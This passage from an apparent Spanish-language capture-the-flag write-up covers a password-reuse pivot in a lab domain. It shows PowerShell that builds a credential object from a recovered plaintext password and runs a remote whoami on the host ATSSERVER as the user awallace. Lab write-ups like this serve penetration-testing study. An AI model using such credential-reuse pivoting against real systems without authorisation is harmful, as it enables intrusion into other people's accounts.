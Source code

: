 <figure><img src="../../../.gitbook/assets/3051_vmware_lWsjZf7qiL.png" alt="" width="494"><figcaption></figcaption></figure>

### Password Reuse - Pivoting to awallace&#x20;

De la lista de usuarios que disponemos, solamente nos quedan 3 usuarios los cuales no disponemos de sus credenciales de acceso. Por lo tanto, deberemos intentar validar con alguno de esos tres usuarios si las credenciales que disponemos se reutilizan en alguno de ellos.

<figure><img src="../../../.gitbook/assets/3052_vmware_QBysM49Mqe.png" alt=""><figcaption></figcaption></figure>

Desde la PowerShell Web Access crearemos un nuevo objeto con las credenciales del usuario que probaremos: _**awallace,**_ verificaremos que son correctas debido que se logra ejecutar el comando 'whoami' en el equipo _**ATSSERVER**_. Por lo tanto, este usuario reutiliza las credenciales obtenidas anteriormente.

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password@123' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('acute\awallace',$SecPassword)

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { whoami }
```
{% endcode %}
